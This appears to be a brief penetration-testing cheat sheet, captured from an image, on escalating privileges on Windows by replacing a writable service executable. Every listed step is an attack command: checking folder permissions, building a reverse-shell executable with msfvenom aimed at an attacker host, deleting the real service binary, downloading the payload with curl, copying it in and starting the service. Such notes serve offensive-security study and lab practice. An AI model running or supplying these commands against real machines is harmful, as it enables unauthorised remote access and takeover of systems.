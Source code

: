 # Modifiable Service File

• Permission check and service stop / start check

• Msfvenom create shell and upload ( curl, iwr, certutil)

    • icacls "C:\Program Files"

    • msfvenom -p windows/shell_reverse_tcp lhost=192.168.10.10 lport=443 -f exe -o rev.exe

    • del "C:\program files\noman\noman.exe"

    • curl 192.168.10.10/rev.exe -o noman.exe

    • cp noman.exe "C:\program files\noman\"

    • net start noman
